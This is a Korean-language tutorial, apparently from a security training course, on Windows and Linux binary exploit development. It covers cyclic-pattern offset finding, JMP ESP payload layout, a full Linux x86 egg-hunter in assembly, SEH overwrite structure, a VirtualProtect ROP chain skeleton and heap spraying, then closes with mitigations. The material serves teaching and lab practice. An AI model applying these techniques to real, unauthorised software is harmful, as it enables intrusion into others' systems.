

# 07. 실전 익스플로잇 개발 심층 가이드 (Practical Exploit Writing & Bypass Deep-Dive)

> **대상**: Windows 및 Linux x86/x64 바이너리 익스플로잇 실무자  
> **핵심 원천**: Corelan Exploit Writing Series, Windows 커널/유저 모드 메모리 보호 기법 분석 자료  
> **선수 지식**: x86/x64 어셈블리, 스택 프레임 구조, C/C++ 포인터, GDB/x64dbg 기본 조작

---

## 1. 개요 및 익스플로잇 진화 흐름

과거 단순 `EIP/RIP` 덮어쓰기에서 시작된 바이너리 취약점 공격은 컴파일러와 OS의 다중 완화 기법(Mitigations)에 대응하며 진화해 왔습니다.



---

## 2. JMP ESP 및 쉘코드 배치 전략

### 2.1 스택 레이아웃과 오프셋 산출
고전적인 스택 오버플로우 시나리오에서 버퍼와 복귀 주소(EIP) 사이의 거리를 계산하기 위해 Cyclic Pattern을 사용합니다.

```python
# pattern_create & pattern_offset 시뮬레이션
def generate_cyclic_pattern(length: int) -> str:
    pattern = ""
    for a in "ABCDEFGHIJKLMNOPQRSTUVWXYZ":
        for b in "abcdefghijklmnopqrstuvwxyz":
            for c in "0123456789":
                if len(pattern) < length:
                    pattern += f"{a}{b}{c}"
                else:
                    return pattern[:length]
    return pattern[:length]
```

### 2.2 Trampoline 기법 (JMP ESP)
바이너리 내부나 보호 기법(ASLR, SafeSEH)이 적용되지 않은 서드파티 DLL에서 `\xff\xe4` (`jmp esp`) 또는 `\xff\xd4` (`call esp`) 명령어를 탐색합니다.

```
[ 버퍼: A * 오프셋 ] + [ JMP ESP 주소 (4바이트) ] + [ NOP Sled (16바이트) ] + [ Shellcode ]
```

- **Bad Characters 필터링**: `\x00`(Null byte), `\x0a`(`\n`), `\x0d`(`\r`) 등 문자열 처리 함수(strcpy, gets 등)를 조기 종료시키는 바이트를 식별하고 배제한 인코딩(예: msfvenom shikata_ga_nai)을 적용합니다.

---

## 3. 에그헌팅 (Egg Hunting) 메모리 탐색 실무

### 3.1 필요성과 원리
취약점 트리거 지점에서 주입 가능한 버퍼 크기가 매우 작은 경우(예: 30~60바이트), 대규모 쉘코드(300~500바이트)는 다른 메모리 영역(HTTP 요청 헤더, 환경 변수, 이전 전송 패킷)에 배치하고, 작은 크기의 **Egg Hunter 쉘코드(약 32바이트)** 만을 스택에 배치하여 전체 가상 메모리를 스캔합니다.

### 3.2 Linux Egg Hunter (access 시스템콜 활용)
리눅스에서는 `sys_access` (`0x21`) 시스템콜을 호출하여 메모리 페이지 유효성을 검사합니다. 비인가 페이지에 접근 시 `EFAULT` (`-14`)를 반환하므로 프로세스 크래시 없이 안전하게 페이지를 건너뛸 수 있습니다.

```assembly
; Linux x86 Egg Hunter (시그니처: "w00tw00t")
global _start
section .text
_start:
    xor edx, edx
next_page:
    or dx, 0xfff            ; 4096바이트 페이지 경계 맞춤
next_address:
    inc edx
    lea ebx, [edx + 4]      ; 접근할 4바이트 주소 확인
    push byte 0x21          ; __NR_access
    pop eax
    int 0x80
    cmp al, 0xf2            ; EFAULT (-14) 확인
    jz next_page            ; 잘못된 페이지면 다음 페이지로 스킵

    mov eax, 0x74303077     ; "w00t" 시그니처
    mov edi, edx
    scasd                   ; [edi]와 eax 비교 후 edi += 4
    jnz next_address        ; 불일치 시 1바이트 증가 후 재검색
    scasd                   ; 두 번째 "w00t" 확인 (총 8바이트 "w00tw00t")
    jnz next_address

    jmp edi                 ; 에그 바로 뒤에 위치한 실제 쉘코드로 점프!
```

---

## 4. Stack Cookie(/GS), SafeSEH 및 SEHOP 우회

### 4.1 SafeSEH 우회 매커니즘
SafeSEH는 예외 발생 시 호출될 핸들러의 주소가 컴파일 타임에 생성된 유효 핸들러 테이블에 등록되어 있는지 검사합니다.

1. **우회 조건**:
   - 로드된 모듈 중 **SafeSEH가 비활성화(No SEH)** 된 모듈 또는 서드파티 DLL이 존재할 경우.
   - 핸들러 주소가 모듈의 코드 섹션이 아닌 유저 메모리 주소(예: 힙 영역)를 가리킬 때.
2. **SEH 오버라이트 페이로드 구조**:
   - `Next SEH (nSEH)`: 4바이트 (예: 짧은 조건부 점프 `\xeb\x06\x90\x90`)
   - `SE Handler (SEH)`: 4바이트 (`pop reg; pop reg; ret` 명령어 주소)
   - `Shellcode`: 핸들러 리턴 후 `nSEH`의 숏 점프를 통해 도달하는 위치에 배치.

---

## 5. ROP(Return-Oriented Programming) & DEP 무력화

### 5.1 DEP(Data Execution Prevention) 원리
스택과 힙 영역의 페이지 테이블 엔트리(PTE)에 NX(No-Execute) 비트가 설정되어 직접 쉘코드를 실행할 수 없습니다.

### 5.2 VirtualProtect 호출 ROP 체인 설계
메모리 보호 속성을 `PAGE_EXECUTE_READWRITE` (`0x40`)로 변경하기 위해 `kernel32!VirtualProtect` 함수를 ROP 가젯으로 호출합니다.

```
VirtualProtect(
    lpAddress:       쉘코드가 위치한 스택 주소 (ESP 기반 산출),
    dwSize:          0x00000201 (할당 크기),
    flNewProtect:    0x00000040 (PAGE_EXECUTE_READWRITE),
    lpflOldProtect:  쓰기 가능한 임의 포인터 주소 (Witable Address)
);
```

#### ROP 가젯 배치 스켈레톤
```python
import struct

def p32(val): return struct.pack("<I", val)

rop_chain = [
    # 1. EAX에 VirtualProtect 포인터 로드
    p32(0x10012345),  # POP EAX # RET
    p32(0x10098000),  # IAT Pointer to VirtualProtect
    p32(0x10015678),  # MOV EAX, DWORD PTR [EAX] # RET

    # 2. VirtualProtect 파라미터 세팅 (Pushad 기법 또는 직접 스택 구성)
    # EAX, ECX, EDX, EBX, ESP, EBP, ESI, EDI 레지스터 조립 후 PUSHAD 가젯 호출
    p32(0x10023456),  # PUSHAD # RET
]
```

---

## 6. 힙 스프레이 (Heap Spraying) 기법

- 브라우저나 ActiveX 제어 등에서 예측 가능한 가상 메모리 주소(예: `0x0c0c0c0c`, `0x0a0a0a0a`)에 대규모 NOP Sled + 쉘코드 덩어리를 수백 메가바이트 단위로 반복 할당합니다.
- 해제 후 사용(UAF, Use-After-Free)으로 파괴된 함수 포인터나 가상 메서드 테이블(vtable) 주소를 `0x0c0c0c0c`로 향하게 하여 안정적으로 쉘코드를 제어합니다.

---

## 7. 실전 실습 연계 및 방어 대책

### 7.1 VibeHacking 실습 환경 연계
- **Lab 02 (바이너리 익스플로잇 랩)**: Linux x86 ROP & ret2libc 실전 실습 (`labs/02_pwn_lab`)
- **Lab 20 (WinAppSec 랩)**: Windows SEH 오버라이트 및 HEVD 드라이버 취약점 실전 실습 (`labs/20_winapp_exploit_lab`)
- **워게임 트랙**: `pwn` (35문제), `winclient` (35문제)

### 7.2 컴파일러 및 OS 레벨 완화 기법 적용
1. **Control Flow Guard (CFG) / Intel CET (Shadow Stack)**: 간접 호출 및 복귀 주소 무결성 하드웨어 레벨 보장.
2. **ASLR (Full ASLR / High Entropy ASLR)**: 모든 모듈(EXE, DLL)과 힙, 스택 주소를 무작위화.
3. **SafeStack & Shadow Call Stack**: 리턴 주소를 격리된 전용 스택 메모리에 저장하여 버퍼 오버플로우로부터 보호.
